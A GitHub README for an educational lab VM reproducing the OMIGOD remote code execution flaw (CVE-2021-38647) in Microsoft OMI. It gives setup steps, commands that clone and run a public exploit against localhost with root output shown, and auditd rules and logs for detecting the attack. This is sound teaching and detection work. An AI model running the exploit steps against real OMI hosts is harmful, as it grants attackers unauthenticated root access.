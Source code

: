 # Readme

An educational lab VM to learn about the 9.6 CVSS unauthenticated Remote Code Execution (RCE) vulnerability in Open Management Infrastructure software (CVE-2021-38647).

Disclosure (original research): https://www.wiz.io/blog/omigod-critical-vulnerabilities-in-omi-azure

Source code: https://github.com/microsoft/omi

Public exploit code:
* https://github.com/horizon3ai/CVE-2021-38647
* https://github.com/Immersive-Labs-Sec/cve-2021-38647

news:
* https://nakedsecurity.sophos.com/2021/09/16/omigod-an-exploitable-hole-in-microsoft-open-source-code/
* https://www.zdnet.com/article/omigod-azure-users-running-linux-vms-need-to-update-now/
* https://threatpost.com/microsoft-patch-tuesday-exploited-windows-zero-day/169459/

Write up:
* https://censys.io/blog/understanding-the-impact-of-omigod-cve-2021-38647/

## Setup

* Install [Vagrant](https://www.vagrantup.com/)
* Install a [supported hypervisor](https://app.vagrantup.com/generic/boxes/ubuntu2004) for your VM

```shell
vagrant up
vagrant ssh
pgrep omiserver
```

This will setup Ubuntu 20.04 (Focal Fossa). Thanks [Roboxes](https://roboxes.org/) for the Vagrant box.

Installed by playbook.yml:

* omi-1.6.8-0.ssl_110.ulinux.x64.deb - `sha256:2e0813ee3f2a71028f071d9933ca2f336faaaf9b6126d5f1767ffcbc7e803279`
* scx-1.6.8-1.ssl_110.ulinux.x64.deb - `sha256:1cba16e3b307177cbe15bd3fd8a2a87ab8d638846988202be8a17981b5e900c9`

Don't put this VM on the internet :-)

## Exploiting

Thanks to vagrant a port forward on localhost:5986 to 5986 in the VM will be open after bring the box up. We have a lab VM to test with now.

To run the exploit from your desktop or inside the VM after reading `omigod.py`, this is why the git commands checkout a set commit! Do not run unknown random exploit code.

```shell
cd ~/Downloads
git clone https://github.com/horizon3ai/CVE-2021-38647.git
cd CVE-2021-38647
git checkout 2eaf8ab6f1fe8f1691401a3e36da4407997f4cfc
python3 -m venv omigod-env
source omigod-env/bin/activate
python3 -m pip install requests urllib3
python3 omigod.py -t 127.0.0.1 -c hostname
```

You should see `ubuntu2004.localdomain` as the output the the hostname command. 

Or if you run `id` command you can see:

```
uid=0(root) gid=0(root) groups=0(root)
```

😬

## Using omi

The Getting Started doco from MS:
https://github.com/microsoft/omi/blob/master/Unix/doc/omi/omi.pdf

## Detect

Inside the VM auditd is installed.

Log all command exec:

```shell
sudo auditctl -a exit,always -F arch=b32 -S execve -k execve
sudo auditctl -a exit,always -F arch=b64 -S execve -k execve
```

```shell
sudo tail -f /var/log/audit/audit.log
```

The output from sending a command:

```
type=SYSCALL msg=audit(1631977306.937:107): arch=c000003e syscall=59 success=yes exit=0 a0=7f906c002570 a1=7f906c001330 a2=7fffe5148108 a3=7f90751453f0 items=2 ppid=8552 pid=9974 auid=4294967295 uid=0 gid=0 euid=0 suid=0 fsuid=0 egid=0 sgid=0 fsgid=0 tty=(none) ses=4294967295 comm="sh" exe="/usr/bin/dash" key="execve"
type=EXECVE msg=audit(1631977306.937:107): argc=3 a0="/bin/sh" a1="-c" a2="whoami"
type=CWD msg=audit(1631977306.937:107): cwd="/var/opt/microsoft/scx/tmp"
type=PATH msg=audit(1631977306.937:107): item=0 name="/bin/sh" inode=5374016 dev=08:03 mode=0100755 ouid=0 ogid=0 rdev=00:00 nametype=NORMAL cap_fp=0 cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0
type=PATH msg=audit(1631977306.937:107): item=1 name="/lib64/ld-linux-x86-64.so.2" inode=5377053 dev=08:03 mode=0100755 ouid=0 ogid=0 rdev=00:00 nametype=NORMAL cap_fp=0 cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0
type=PROCTITLE msg=audit(1631977306.937:107): proctitle=2F62696E2F7368002D630077686F616D69
type=SYSCALL msg=audit(1631977306.937:108): arch=c000003e syscall=59 success=yes exit=0 a0=564c4e436b90 a1=564c4e436b38 a2=564c4e436b48 a3=7f5b83f28850 items=2 ppid=9974 pid=9975 auid=4294967295 uid=0 gid=0 euid=0 suid=0 fsuid=0 egid=0 sgid=0 fsgid=0 tty=(none) ses=4294967295 comm="whoami" exe="/usr/bin/whoami" key="execve"
type=EXECVE msg=audit(1631977306.937:108): argc=1 a0="whoami"
type=CWD msg=audit(1631977306.937:108): cwd="/var/opt/microsoft/scx/tmp"
type=PATH msg=audit(1631977306.937:108): item=0 name="/usr/bin/whoami" inode=5374366 dev=08:03 mode=0100755 ouid=0 ogid=0 rdev=00:00 nametype=NORMAL cap_fp=0 cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0
type=PATH msg=audit(1631977306.937:108): item=1 name="/lib64/ld-linux-x86-64.so.2" inode=5377053 dev=08:03 mode=0100755 ouid=0 ogid=0 rdev=00:00 nametype=NORMAL cap_fp=0 cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0
type=PROCTITLE msg=audit(1631977306.937:108): proctitle="whoami"
```

Someone has run "whoami".
